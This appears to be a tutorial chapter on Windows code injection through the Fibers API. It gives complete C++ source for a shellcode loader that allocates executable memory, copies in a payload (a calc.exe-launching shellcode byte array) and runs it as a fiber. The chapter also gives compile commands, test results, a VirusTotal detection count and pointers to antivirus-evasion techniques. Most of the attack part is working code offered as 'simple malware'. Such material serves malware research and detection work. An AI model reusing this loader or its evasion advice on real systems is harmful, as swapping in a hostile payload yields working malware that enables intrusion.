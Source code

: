 \newpage
\subsection{18. code injection via windows Fibers. Simple C++ malware.}

﷽

![fiber injection](./images/26/2021-11-28_20-18.png){wodth="80%"}    

In this post, I'll take a look at the code injection to local process through Windows Fibers API.    

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.    

### example

Let's go to consider an example which demonstrate this technique.   

Firstly, before scheduling the first fiber, call the `ConvertThreadToFiber` function to create an area in which to save fiber state information:

![fiber injection 2](./images/26/2021-11-28_20-49.png){wodth="80%"}    

Then, allocate some memory for our payload and payload is written to the allocated memory:

![fiber injection 3](./images/26/2021-11-28_20-50.png){wodth="80%"}    

As you can see, `VirtualAlloc` called with `PAGE_EXECUTE_READWRITE` parameter, which means executable, readable and writeable.

The next step is create a fiber that will execute the our payload:    

![fiber injection 4](./images/26/2021-11-28_20-57.png){wodth="80%"}    

And finally, schedule the newly created fiber that points to our payload:

![fiber injection 5](./images/26/2021-11-28_20-59.png){wodth="80%"}    

So, our full source code is (`hack.cpp`):      
```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len,
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, 
  (LPFIBER_START_ROUTINE)payload_mem, 
  NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile our simple malware:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![fiber injection 6](./images/26/2021-11-28_21-04.png){wodth="80%"}    

Let's go to launch a `hack.exe` on windows 7 x64:    
```cmd
.\hack.exe
```

![fiber injection 7](./images/26/2021-11-28_21-06.png){wodth="80%"}    

Also perfectly worked on `windows 10 x64 (build 18363)`:

![fiber injection 8](./images/26/2021-11-28_21-08.png){wodth="80%"}    

Let's go to upload our malware to virustotal:

![fiber injection 9](./images/26/2021-11-28_21-31.png){wodth="80%"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**So, 25 of 67 AV engines detect our file as malicious.**    

For better result we can combine [payload encryption](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) with random key and [obfuscate functions](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) with another keys etc.   
Also we can use [AES encryption](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html) for payload encryption.   

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[Source code in Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    

